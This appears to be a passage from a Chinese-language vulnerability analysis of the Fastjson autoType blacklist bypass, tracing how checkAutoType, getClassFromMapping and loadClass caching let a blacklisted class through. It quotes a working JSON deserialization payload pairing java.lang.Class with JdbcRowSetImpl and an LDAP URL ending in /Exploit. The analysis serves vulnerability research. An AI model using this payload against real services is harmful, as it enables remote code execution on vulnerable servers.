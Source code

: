 仔细分析一下，可以发现无论是白名单开启与否，我们的恶意类都要想办法必须要从第8步的`return clazz`出去才有机会。

1. 因为白名单关闭（手动）时，我们如果进入第九步，会百分百跟黑名单正面撞上，必然被杀。我们只能在这之前溜出去，机会就在6，7步中。
2. 白名单开启时（默认），虽然在第五步时，我们也会跟黑名单撞上，但是却莫名其妙的会有一线生机，只要满足`TypeUtils.getClassFromMapping(typeName) != null`（是!=）反而可以从黑名单中逃开。然后从第八步中return出去。

那往之前看clazz可以从哪里赋值，5、6、7三个地方，但是5是白名单匹配才返回。这不可能。

#### TypeUtils.getClassFromMapping(typeName)

先看`getClassFromMapping`：

```
//这个map是一个hashmap
private static ConcurrentMap<String,Class<?>> mappings = new ConcurrentHashMap<String,Class<?>>(16, 0.75f, 1);
    ...
    public static Class<?> getClassFromMapping(String className){
        //很简单的一个mapping的get
        return mappings.get(className);
    }
```

按照套路去寻找影响这个mappings的put方法。搜索`mappings.put`，在下面这两个方法中有找到：

```
com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings
com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader, boolean)
```



正向：

因为一眼就能看出来是绕过了黑名单，所以问题的关键自然在checkAutoType()和loadClass()这两个函数中，去跟进一下

首先在" a " :{ " @type " : " java.lang.Class " , " val " : " com.sun.rowset.JdbcRowSetImpl " } 传入的时候，Class类是不在黑名单内的，在MiscCodec类的deserialze函数里面可以看到会将val的值拿出来用来生成对应的对象，即JdbcRowSetImpl，但是我们并没法给JdbcRowSetImpl对象的成员变量赋值，

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/1563178040_5d2c3438d66d0.png!small)

继续往deserialze的下面看，当传入的@type的值为Class的时候会调用loadClass函数，

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/1563178060_5d2c344cd03cd.png!small)

再往下跟，又调了一下loadClass函数，多加了一个值为true的参数

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/1563178089_5d2c346985a30.png!small)

再跟进去可以看到因为传入的cache为true，所以会在mapping里面把JdbcRowSetImpl这个对象的实例和com.sun.rowset.JdbcRowSetImpl 对应起来，OK现在关于a的分析到此为止，

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/1563178147_5d2c34a37907d.png!small)

我们该去跟着b

（" b " :{ " @type " : " com.sun.rowset.JdbcRowSetImpl " , " dataSourceName " : " ldap://localhost:1389/Exploit " , " autoCommit " :true}} ）了，看看为什么checkautotype()函数没把b给拦下来，直接去跟进checkautotype函数，当autotype为true的时候，虽然发现黑名单匹配了，但是TypeUtils.getClassFromMapping(typeName) ！=null所以不会抛出异常。
